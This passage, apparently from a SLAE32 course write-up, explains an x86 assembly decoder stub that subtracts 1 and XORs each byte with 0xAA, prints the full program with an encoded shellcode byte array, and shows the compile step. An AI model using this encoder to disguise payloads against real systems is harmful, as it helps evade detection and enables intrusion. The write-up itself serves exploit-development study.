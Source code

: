 After that, there is the `decode` procedure. We first subtract `1` from the value of the `ESI` register, so each byte can be XORed with the key and result to the initial value. Then, the actual `XOR` happens between the new value of the `ESI` register and the static key `0xAA`. The next conditional jump checks if the result from the previous `XOR` operation is `0`, meaning the last byte of the shellcode got decrypted. If so, the shellcode gets executed. Otherwise, `ESI` is incremented by 1 to go to the next byte. Finally, the next byte gets decrypted by a short jump at `decode`.

```nasm
decode:
	sub byte [esi], 0x1	; subtract 1 out of each byte
	xor byte [esi], 0xAA	; xor the subtracted value with the key to retrieve initial value
	jz Shellcode		; jump if 0 (when the shellcode is decrypted)
	inc esi			; increment esi to go to next byte

	jmp short decode	; jump short to decode procedure to continue decrypting
```

The whole `Assembly` program is the following:

```nasm
global _start			

section .text
_start:

	jmp short call_decoder	; jump short to call_decoder procedure

decoder: 
	pop esi			; pop memory address pointing at shellcode from the stack

decode:
	sub byte [esi], 0x1	; subtract 1 out of each byte
	xor byte [esi], 0xAA	; xor the subtracted value with the key to retrieve initial value
	jz Shellcode		; jump if 0 (when the shellcode is decrypted)
	inc esi			; increment esi to go to next byte

	jmp short decode	; jump short to decode procedure to continue decrypting

call_decoder:

	call decoder
	Shellcode: db 0x9c,0x6b,0xfb,0xc3,0x86,0x86,0xda,0xc3,0xc3,0x86,0xc9,0xc4,0xc5,0x24,0x4a,0xfb,0x24,0x49,0xfa,0x24,0x4c,0x1b,0xa2,0x68,0x2b,0xab				; encrypted shellcode with 0xab at the end (key + 1)
```

## Compilation and Testing 

Now we need to compile `xor-decoder-marker.nasm` with the bash script `compile.sh` and extract the shellcode from the generated executable with the `objdump` one-liner.

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/4_Custom_encoder$ ./compile.sh xor-decoder-marker
[+] Assembling with Nasm ...
[+] Linking ...
[+] Done!
```
